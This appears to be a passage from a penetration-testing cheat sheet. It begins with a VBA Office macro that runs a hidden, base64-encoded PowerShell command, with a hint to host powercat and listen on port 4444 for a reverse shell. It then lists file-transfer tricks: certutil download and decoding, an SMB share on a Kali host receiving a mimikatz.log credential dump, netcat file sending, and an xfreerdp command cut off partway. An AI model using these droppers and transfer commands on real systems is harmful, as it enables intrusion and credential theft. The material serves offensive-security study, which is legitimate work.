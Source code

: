 ```Javascript
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
    ...
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```
Save the document, host `powercat.ps1` as http access, then start listening on port `4444`.
### File Sharing(`certutil`)
Encode first (should be the same extension)
```powershell
certutil -encode [inputFile] [encodeFile]
```
in Windows: notepad , Copy -> paste to a new txt file, change the extension.
```powershell
certutil -decode [encodeFile] [outputFile]
```
in Linux: Copy -> paste
```powershell
base64 -d encodedfile.txt > decodedfile
```
Use `certutil` for download: 
```powershell
certutil -urlcache -split -f <URL> <output_file>
```
Also can use:
```bash
cat nc64.exe| base64 -w 0 > nc64.b64
```

```powershell
[IO.File]::WriteAllBytes("C:\Users\web_svc", [Convert]::FromBase64String("[base64 code]"))
```
### File Sharing(smb)
On kali:
```bash
impacket-smbserver test . -smb2support  -username user -password pass
```
On windows:
```powershell
net use m: \\Kali_IP\test /user:user pass
copy mimikatz.log m:\
```
or Open it in Explorer.
### File Sharing(nc)
listen:
```bash
nc -l -p 1234 > received_file.zip
```
sender:
```bash
nc -w 3 [kali] 1234 < out.file
```
### File Sharing(xfreerdp)
**On Kali:**
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:
```